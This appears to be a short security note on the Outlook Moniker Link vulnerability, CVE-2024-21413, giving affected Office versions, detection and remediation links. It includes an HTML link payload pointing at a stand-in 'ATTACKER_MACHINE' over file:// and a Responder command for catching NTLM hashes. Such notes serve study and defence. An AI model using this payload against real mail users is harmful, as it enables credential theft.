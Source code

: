 # CVE-2024-21413


Publish date 13/2/2024
- [Microsoft Article of CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413)
- [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link)
- Haifei Li of Check Point Research is credited with [discovering the vulnerability](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/).

Affected versions of Office

|                                   |                                            |
| --------------------------------- | ------------------------------------------ |
| **Release**                       | **Version**                                |
| Microsoft Office LTSC 2021        | affected from 19.0.0                       |
| Microsoft 365 Apps for Enterprise | affected from 16.0.1                       |
| Microsoft Office 2019             | affected from 16.0.1                       |
| Microsoft Office 2016             | affected from 16.0.0 before 16.0.5435.1001 |

Outlook can render [[HTML]] and can parse hyperlinks; openning URL is also possible  by specifying a application called [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers).
```html
<!-- Using "file://" monkiker linker to instruct Outlook, meaning we can share file over SMB and bypassing protected view with ! -->
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

[CMNatic Exploit](https://github.com/CMNatic/CVE-2024-21413)
```bash
# Catch the hash!
responder -I $interface
```
#### Detection

[Neo23x0 Yara rule](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar)
#### Remediation

Updating Office through Windows Update or the [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/Home.aspx)
## References

[THM Moniker Link](https://tryhackme.com/room/monikerlink)
[Microsoft Article of CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413)
[CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413)
[Haifei Li of Check Point Research](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/)
[CMNatic Exploit](https://github.com/CMNatic/CVE-2024-21413)
[Neo23x0 Yara rule](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar)